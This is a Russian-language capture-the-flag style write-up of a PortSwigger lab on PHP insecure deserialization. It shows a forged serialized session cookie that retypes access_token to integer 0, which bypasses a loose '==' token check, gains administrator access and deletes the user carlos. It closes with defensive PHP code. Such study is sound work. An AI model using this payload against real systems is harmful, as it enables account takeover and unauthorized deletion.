

# Lab: Modifying serialized data types

**Платформа:** PortSwigger Web Security Academy  
**Категория:** Insecure Deserialization  
**Сложность:** Practitioner  
**Дата:** 2025-08-01 

---

## TL;DR
Механизм сессий основан на сериализованном PHP-объекте в cookie.
Помимо смены имени пользователя на `administrator`, приложение
неявно доверяет **типу данных** поля `access_token` — сравнение
токена происходит нестрого (loose comparison, `==`). Изменив
тип поля `access_token` с строки (`s`) на целое число (`i`) со
значением `0`, можно обойти проверку токена доступа за счёт
особенностей PHP-сравнения типов, полностью выдав себя за
администратора без знания реального токена. После этого через
панель `/admin` удалён пользователь `carlos`.

---

## Суть уязвимости: изменение типа данных в сериализованном объекте

```
Обычная атака на десериализацию (как в лабе про object injection):
Меняем ЗНАЧЕНИЯ полей в сериализованном объекте

Эта лаба — на уровень глубже:
Меняем не только значение, но и САМ ТИП данных поля
(строка → целое число)
→ если сервер сравнивает значения через нестрогое
  сравнение (==), а не строгое (===), смена типа
  может привести к тому, что сравнение станет ИСТИННЫМ
  там, где раньше было ложным — даже без знания
  реального секретного значения
```

Ключевая причина: в PHP при `==` разные типы приводятся друг
к другу перед сравнением. Например, `0 == "любая нестроковая
строка"` в некоторых версиях/контекстах PHP может быть `true`,
если строка не начинается с числа (так называемая "type
juggling" — жонглирование типами). Приложения, которые сравнивают
токены или пароли через `==`, потенциально уязвимы к такому
обходу, если атакующий может влиять на тип одного из значений.

---

## Разведка

### Шаг 1 — Изучение формата cookie сессии

Вошла как `wiener:peter`. В Burp перехватила запрос
`GET /my-account` после входа и открыла cookie сессии
на панели **Inspector** — она распознаётся как сериализованный
PHP-объект:

```
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"<случайная строка>";}
```

Объект содержит два поля: `username` (строка) и `access_token`
(тоже строка — судя по всему, секретный токен, привязанный
к текущей сессии).

Отправила запрос в Burp Repeater.


---

## Эксплуатация

### Шаг 2 — Редактирование объекта через Inspector

В Burp Repeater, на панели **Inspector**, отредактировала
структуру сериализованного объекта:

```
1. Изменила длину атрибута username на 13
2. Изменила значение username на "administrator"
3. Изменила значение access_token на целое число 0
   (убрав окружающие двойные кавычки — теперь это не строка)
4. Изменила метку типа данных для access_token
   с "s" (string) на "i" (integer)
```




Итоговый объект:

```
O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}
```

Разбор:

```
O:4:"User"                    — объект класса "User"
:2:                            — 2 свойства
s:8:"username"                 — имя первого свойства (строка, 8 символов)
s:13:"administrator"           — значение: строка "administrator" (13 символов)
s:12:"access_token"            — имя второго свойства (строка, 12 символов)
i:0                            — значение: ЦЕЛОЕ ЧИСЛО 0 (не строка!)
```

Смена метки типа с `s` на `i` — ключевой момент: теперь сервер
получает `access_token` не как строку, а как число `0`, что
меняет поведение сравнения этого значения с реальным секретным
токеном на сервере.

### Шаг 3 — Применение изменений и отправка запроса

Нажала **Apply changes** — Burp автоматически перекодировал
изменённый объект и обновил значение cookie в запросе.

Отправила запрос.

### Шаг 4 — Проверка результата

В ответе сервера появилась ссылка на панель администратора
`/admin` — признак того, что сервер принял модифицированный
объект и авторизовал сессию под пользователем `administrator`,
несмотря на то что реальный `access_token` этого пользователя
атакующей неизвестен.


### Шаг 5 — Переход в панель администратора

Изменила путь запроса на `/admin` и отправила его повторно.
Получила доступ к панели администратора со списком пользователей
и ссылками на удаление отдельных аккаунтов.


### Шаг 6 — Удаление пользователя carlos

Изменила путь запроса на:

```
GET /admin/delete?username=carlos
```

Отправила запрос. Пользователь `carlos` был удалён. Лаба решена.


---

## Итог

```
Проблема: сессия основана на сериализации PHP-объекта,
          полностью присылаемого клиентом в cookie —
          клиент может модифицировать не только значения,
          но и типы данных отдельных полей

Проблема: сервер сравнивает access_token через нестрогое
          сравнение (==), которое в PHP подвержено
          "type juggling" — при разных типах операндов
          сравнение может дать неожиданный результат true

Эксплуатация: смена типа поля access_token со строки на
          целое число 0 обходит проверку токена без
          знания его реального значения → сессия
          авторизуется от имени administrator
```

### Почему смена типа "ломает" сравнение

```
Строгое сравнение (===) — безопасно:
"0" === "реальный_токен"  → false (типы и значения не совпадают)
0   === "реальный_токен"  → false (уже разные ТИПЫ — сразу false)

Нестрогое сравнение (==) — уязвимо к жонглированию типами:
0 == "реальный_токен" → PHP приводит типы перед сравнением;
                         в зависимости от версии PHP и формата
                         строки токена результат может оказаться
                         TRUE, даже если строки визуально
                         совершенно не похожи на "0"
```

---

## Защита

```php
// УЯЗВИМО — нестрогое сравнение токена, объект восстанавливается
// из данных, полностью присланных клиентом:
$sessionObject = unserialize(base64_decode($_COOKIE['session']));
if ($sessionObject->access_token == $storedToken) {   // == вместо ===
    // авторизован
}

// БЕЗОПАСНО — строгое сравнение + явная проверка типа:
if (
    is_string($sessionObject->access_token) &&
    hash_equals($storedToken, $sessionObject->access_token)  // === внутри + защита от timing attack
) {
    // авторизован
}
```

Дополнительно:
- Всегда использовать строгое сравнение (`===`) или функции,
  специально предназначенные для сравнения секретов
  (`hash_equals()` в PHP — защищает и от type juggling,
  и от timing-атак), а не `==`
- Не доверять типам данных, приходящим в десериализованном
  объекте от клиента — валидировать и приводить к ожидаемому
  типу явно перед использованием (`(string) $value`,
  `is_string($value)` и т.п.)
- Не хранить в клиентской сессии данные авторизации
  (`access_token`, роль пользователя) в виде, который клиент
  может свободно редактировать — переходить на server-side
  сессии, где на клиенте хранится только непрозрачный
  идентификатор сессии
- Подписывать/шифровать сериализованные данные (HMAC) —
  тогда любое изменение объекта клиентом (включая смену типа
  поля) будет обнаружено по несовпадению подписи
- Ограничивать `unserialize()` списком разрешённых классов
  (`allowed_classes`), чтобы дополнительно снизить риск
  инъекции posторонних объектов